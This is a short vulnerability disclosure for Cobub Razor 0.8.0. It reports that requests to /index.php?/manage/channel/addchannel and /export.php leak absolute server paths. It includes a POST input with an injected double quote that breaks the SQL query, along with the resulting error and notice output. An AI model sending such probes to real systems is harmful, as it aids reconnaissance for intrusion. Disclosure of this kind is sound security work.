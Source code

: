 
## This physical path Leakage exists in Western Bridge Cobub Razor 0.8.0 via a /index.php?/manage/channel/addchannel and /export.php request. ##

The pages leaked the absolute path:  
http://localhost/index.php?/manage/channel/addchannel  
POST method:channel_name=test"&platform=1  
Result:
```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123"' at line 3

select * from razor_channel where (user_id = "1" or type="system") and active=1 and channel_name="test" " and platform="123"

Filename: D:\phpStudy\PHPTutorial\WWW\system\database\DB_driver.php

Line Number: 331
```  
http://localhost/export.php  
GET method  
Result:
```
Notice: Undefined index: type in D:\phpStudy\PHPTutorial\WWW\export.php on line 22

Notice: Undefined index: svg in D:\phpStudy\PHPTutorial\WWW\export.php on line 23

Notice: Undefined index: filename in D:\phpStudy\PHPTutorial\WWW\export.php on line 24

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 52

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 94
Invalid type
```

